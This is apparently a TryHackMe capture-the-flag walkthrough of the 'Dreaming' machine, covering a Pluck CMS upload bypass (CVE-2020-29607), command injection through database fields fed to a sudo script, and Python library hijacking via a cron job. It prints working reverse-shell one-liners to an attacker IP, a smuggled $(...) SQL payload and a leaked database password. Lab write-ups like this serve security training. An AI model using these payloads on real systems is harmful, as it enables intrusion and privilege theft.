# TryHackMe - Dreaming

[](https://tryhackme.com/room/dreaming)


---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [Attack Path Overview](#attack-path-overview)
3. [Reconnaissance](#reconnaissance)
4. [Enumeration](#enumeration)
5. [Initial Access](#initial-access)
6. [Privilege Escalation: lucien](#privilege-escalation-lucien)
7. [Privilege Escalation: death](#privilege-escalation-death)
8. [Privilege Escalation: morpheus](#privilege-escalation-morpheus)
9. [Findings Summary](#findings-summary)
10. [Remediation Recommendations](#remediation-recommendations)
11. [Tools Used](#tools-used)
12. [Skills Demonstrated](#skills-demonstrated)
13. [Lessons Learned](#lessons-learned)
14. [References](#references)
15. [Disclaimer](#disclaimer)

---

## Executive Summary

This write-up documents my methodology for completing the **Dreaming** room on TryHackMe, an easy-difficulty Linux machine involving web application exploitation and multi-stage privilege escalation.

The engagement began with standard network and web enumeration, which uncovered a vulnerable **Pluck CMS** installation. Default/weak credentials granted access to the CMS administration panel, where an unrestricted file upload vulnerability (**CVE-2020-29607**) was leveraged to achieve remote code execution and an initial foothold.

From the initial shell, plaintext credentials for the user `lucien` were recovered from a script in `/opt`. A sudo-permitted Python script owned by the user `death` was found to be vulnerable to **command injection** via unsanitized input passed to `subprocess` with `shell=True`, enabling escalation to `death`.

Finally, a world-writable copy of the Python standard library (`shutil.py`) was discovered. Because a scheduled task running as `morpheus` imported this module, planting a reverse shell payload inside it resulted in code execution as `morpheus`, completing the box.

---

## Attack Path Overview

```mermaid
flowchart LR
    A[Reconnaissance] --> B[Pluck CMS Discovered]
    B --> C[Weak Credentials]
    C --> D[CVE-2020-29607<br/>File Upload RCE]
    D --> E[Initial Shell]
    E --> F[Credentials Found<br/>User: lucien]
    F --> G[Command Injection<br/>via sudo script]
    G --> H[Shell as: death]
    H --> I[Writable shutil.py]
    I --> J[Scheduled Task<br/>Executes as morpheus]
    J --> K[Shell as: morpheus]
```

| Stage | Technique | Outcome |
|---|---|---|
| 1 | Network & web enumeration | Discovered Pluck CMS |
| 2 | Weak credential guessing | Admin panel access |
| 3 | CVE-2020-29607 (file upload bypass) | Remote code execution |
| 4 | Credential discovery in `/opt` | Shell as `lucien` |
| 5 | Command injection via `sudo` script | Shell as `death` |
| 6 | Writable shared library + cron job | Shell as `morpheus` |

---

## Reconnaissance

### Port Scanning

A full TCP port scan was run first to avoid missing any non-default services:

```bash
sudo nmap -p- TARGET_IP
```

**Results:**

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

A follow-up scan was run against the discovered ports to fingerprint service versions and run default NSE scripts:

```bash
sudo nmap -p 22,80 -sV -sC TARGET_IP
```

**Results:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

| Port | Service | Version |
|---:|---|---|
| 22 | SSH | OpenSSH 8.2p1 |
| 80 | HTTP | Apache 2.4.41 |
Since the port 80 was opened, I visited the web page:



---

## Enumeration

### Web Directory Enumeration

With only the Apache default page visible, directory brute-forcing was performed using **feroxbuster** to surface hidden content:

```bash
feroxbuster -u http://TARGET_IP-w /usr/share/wordlists/dirb/common.txt
```

This uncovered an application directory:

```
/app/pluck-4.7.13
```



Browsing to this path revealed a **Pluck CMS** installation:



### Pluck Administration Panel

The site's `admin` link redirected to the CMS login page:

```
http://TARGET_IP/app/pluck-4.7.13/login.php
```


A quick check against common/weak passwords succeeded on the first attempt:

| Field | Value |
|---|---|
| Password | `password` |



---

## Initial Access

### Exploiting the File Upload Function

The administration panel exposes a file upload feature intended for media files. Attempting to upload a `.php` webshell was blocked by an extension filter, which silently renamed the file:

```
shell.php  →  shell.php.txt
```

However, the filter did not account for the `.phar` extension, which PHP will still execute under certain configurations. This is a known issue tracked as **CVE-2020-29607**, an authenticated file upload restriction bypass in Pluck CMS ≤ 4.7.13.



Uploading a `.phar` webshell succeeded without modification, yielding remote code execution:



### Establishing a Reverse Shell

Using the code execution primitive, a reverse shell was triggered:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 192.168.130.116 4444 > /tmp/f
```

A listener was prepared beforehand on the attacking machine:

```bash
nc -lvnp 4444
```

This returned an interactive shell on the target as the web server user.


---

## Privilege Escalation: lucien

### Credential Discovery

With initial access established, `/opt` was checked for leftover scripts and configuration:



A file named `test.py` was present. Reviewing its source revealed hardcoded credentials for the local user `lucien`:



### Lateral Movement

The discovered credentials were used to switch to the `lucien` account:

```bash
su lucien
```

Access as `lucien` was confirmed, and the corresponding user flag was retrieved:



---

## Privilege Escalation: death

### Sudo Permission Enumeration

As `lucien`, available `sudo` rights were checked:

```bash
sudo -l
```

The output showed that `lucien` could run a script owned by `death` without a password:

```
/home/death/getDreams.py
```



### Identifying the Command Injection

Reviewing `getDreams.py` revealed unsafe construction of a shell command using user-controlled data:

```python
command = f"echo {dreamer} + {dream}"
shell = subprocess.check_output(command, text=True, shell=True)
```

Because `dreamer` and `dream` are interpolated directly into a string executed with `shell=True`, arbitrary command injection is possible if either value can be controlled — which was the case here, as both values were pulled from a MySQL database.

### Locating Database Credentials

Shell history on the box contained a plaintext MySQL credential:

```bash
mysql -u lucien -plucien42DBPASSWORD
```

### Exploiting the Injection via Stored Data

Connecting to the database confirmed that `getDreams.py` reads its `dreamer`/`dream` values from the `dreams` table in the `library` database:

```sql
USE library;

INSERT INTO dreams (dreamer, dream)
VALUES (
    "shell",
    "$(mkfifo /tmp/a; cat /tmp/a | /bin/bash -i 2>&1 | nc 192.168.130.116 4444 > /tmp/a)"
);
```

Running the sudo-permitted script then triggered the injected payload in the context of `death`:

```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

This produced a reverse shell as `death`, and the corresponding flag was retrieved:



---

## Privilege Escalation: morpheus

### Locating Writable System Files

As `death`, a search for writable files under `/usr` was performed — a common technique for identifying library-hijacking opportunities:

```bash
find /usr/ -type f -writable 2>/dev/null
```

This returned an unexpected result — a world-writable standard library module:

```
/usr/lib/python3.8/shutil.py
```

### Identifying the Execution Trigger

Inspection of `/home/morpheus` revealed a script, `restore.py`, responsible for backing up a sensitive file:

```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

Since this script imports the `shutil` module directly — and that module was writable — any code planted inside `shutil.py` would execute whenever `restore.py` runs, in the context of whatever user executes it.

### Confirming the Scheduled Execution

`pspy64` was used to monitor process activity without root privileges, confirming that `restore.py` was being triggered periodically (approximately every two minutes), most likely via a cron job running as `morpheus`:

```
2026/08/01 20:21:01 CMD: UID=1002 PID=2546 | /bin/sh -c /usr/bin/python3.8 /home/morpheus/restore.py
2026/08/01 20:23:01 CMD: UID=1002 PID=2555 | /usr/bin/python3.8 /home/morpheus/restore.py
```

**Escalation path:**

```
death
  └─▶ writable /usr/lib/python3.8/shutil.py
        └─▶ restore.py imports shutil
              └─▶ scheduled execution as morpheus
                    └─▶ code execution as morpheus
```

### Exploitation

The writable library was overwritten with a payload that opens a reverse shell and adjusts flag permissions on execution:

```bash
printf '%s\n' 'import socket,os,pty; os.chmod("/home/morpheus/morpheus_flag.txt",0o777); RHOST="192.168.130.116"; RPORT=8888; s=socket.socket(); s.connect((RHOST,RPORT)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/bash")' > /usr/lib/python3.8/shutil.py
```

A listener was started to catch the callback:

```bash
nc -lvnp 8888
```

On the next scheduled run of `restore.py`, the modified `shutil.py` was imported and the payload executed, returning a shell as `morpheus` and completing the box.



---

## Findings Summary

| # | Finding | Severity | Impact |
|---|---|---|---|
| 1 | Weak Pluck CMS administrator credentials | High | Unauthorized access to CMS admin panel |
| 2 | CVE-2020-29607 — file upload filter bypass | High | Remote code execution via `.phar` upload |
| 3 | Command injection in `getDreams.py` | Critical | Privileged code execution as `death` |
| 4 | Plaintext credentials in scripts/shell history | High | Lateral movement to `lucien`, DB access |
| 5 | World-writable Python standard library | Critical | Privilege escalation to `morpheus` |

---

## Remediation Recommendations

- Enforce strong, unique credentials for all administrative interfaces; disable default/weak passwords.
- Patch or upgrade Pluck CMS beyond the version affected by CVE-2020-29607, and validate file uploads by content rather than extension alone.
- Avoid `shell=True` in `subprocess` calls; use parameterized argument lists (`shell=False`) when handling any external or user-influenced input.
- Never store credentials in source code, configuration files, or shell history — use a secrets manager or environment-based secrets injection.
- Restrict write permissions on system and language runtime libraries to root-owned, non-writable paths.
- Apply least privilege to scheduled tasks/cron jobs; avoid running them as higher-privileged users when not required.

---

## Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Port and service enumeration |
| Feroxbuster | Web directory/content discovery |
| Netcat | Reverse shell handling |
| MySQL client | Database enumeration and payload injection |
| pspy64 | Unprivileged process monitoring |

---

## Skills Demonstrated

- Network and web application enumeration
- CMS vulnerability research and exploitation (CVE mapping)
- Identification and exploitation of command injection
- Credential harvesting and reuse across accounts/services
- Linux privilege escalation via shared library hijacking
- Post-exploitation process monitoring and analysis

---

## Lessons Learned

- Default web server pages rarely tell the full story — thorough content discovery is essential before ruling out a target.
- File upload filters based solely on extension are frequently bypassable; content-type and execution-context checks matter more.
- `shell=True` in `subprocess` is a recurring and easily overlooked source of command injection.
- Writable files anywhere on the filesystem — especially language runtime libraries — should be treated as a potential privilege escalation vector.
- Correlating discovered files, scripts, and scheduled tasks is often what turns isolated findings into a full attack chain.

---

## References

- [TryHackMe — Dreaming](https://tryhackme.com/room/dreaming)
- [CVE-2020-29607 — NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2020-29607)
- [OWASP — Command Injection](https://owasp.org/www-community/attacks/Command_Injection)

---

## Disclaimer

This write-up documents my personal approach to completing the **Dreaming** room on TryHackMe. All testing was performed exclusively within the authorized TryHackMe lab environment for educational and skill-development purposes.